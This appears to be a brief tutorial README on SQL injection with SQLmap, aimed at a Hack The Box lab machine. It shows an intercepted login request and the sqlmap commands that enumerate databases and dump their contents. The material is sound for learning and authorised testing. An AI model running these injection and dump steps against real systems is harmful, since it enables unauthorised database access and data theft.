 - [SQLmap video tutorial](https://www.youtube.com/watch?v=pF7uz_ptuFc&ab_channel=ElPing%C3%BCinodeMario)
- [SQLi Laboratory for practice](https://app.hackthebox.com/machines/446)

# Usage

## 1) Intercept the request header with burpsuite, the request should be like:
```javascript
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.11.130
DNT: 1
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=admin%40admin.com&password=admin // <--This field its the injection point
```
## 2) Create a .txt file (peticion.txt) and paste the Burpsuite request
```bash
nano peticion.txt
```
## 3) Use SQLmap with the previouse .txt file (peticion.txt example)
```bash
sqlmap -r peticion.txt
```
- Note: Sometimes SQLmap would ask if we want to add some extra parameteres.
- Note 2: You can access the output on path: /home/kali/.local/share/sqlmap/output/<target_host_name>
## 4) Detect the current databases. After this payload we should see at the output the lists of Databases
```bash
sqlmap -r peticion.txt -dbs
```
## 5) Dump the database information
```bash
sqlmap -r peticion.txt -D <nama_of_database> -dump
```
